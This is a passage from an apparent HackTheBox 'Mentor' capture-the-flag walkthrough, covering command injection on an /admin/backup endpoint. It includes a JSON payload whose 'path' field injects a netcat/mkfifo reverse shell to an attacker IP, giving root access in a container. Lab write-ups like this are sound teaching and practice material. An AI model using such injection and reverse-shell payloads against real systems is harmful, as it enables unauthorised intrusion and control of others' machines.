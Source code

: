
Well, seems like it works, but I had no feedback on that. I tried to connect with SSH but cannot, even with the svc user. Trying for some command injection we have the WGET request returned to our server, so we confirmed that we have command injeciton:


<p align="center">
  <img src="/images/walkthroughs/hackthebox/mentor/3_6_wget.png" width="90%"/>
</p>


With the following payload to the /admin/backup endpoint we get a revshell:


```json
{
  "body":"this",
  "path":"asdf;mkfifo /tmp/f; nc 10.10.14.2 5454 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f"
}
```


We land as root, checking for the .dockerenv file we can confirm that it is a container. 

<p align="center">
  <img src="/images/walkthroughs/hackthebox/mentor/4_0_docker.png" width="90%"/>
</p>
